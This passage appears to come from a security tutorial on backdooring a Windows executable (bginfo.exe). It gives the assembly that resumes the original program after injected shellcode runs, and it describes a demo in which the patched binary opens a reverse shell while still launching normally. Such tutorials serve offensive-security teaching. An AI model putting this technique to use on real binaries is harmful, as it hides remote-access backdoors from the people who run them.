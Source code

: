 All the above steps in assembly would be:

```cpp
add esp, 0x204
popfd
popad
mov edi, 0xbb40e64e
jmp 0x00467B2E
```

The below screenshot shows the very end of the shellcode with the above instructions encircled:

![](../../.gitbook/assets/image%20%2869%29.png)

### Backdoor Demo

If we save the patched binary and launch it - we can see that the reverse shell gets popped and the bginfo.exe is launched successfully:

![](../../.gitbook/assets/backdoored-pe4.gif)
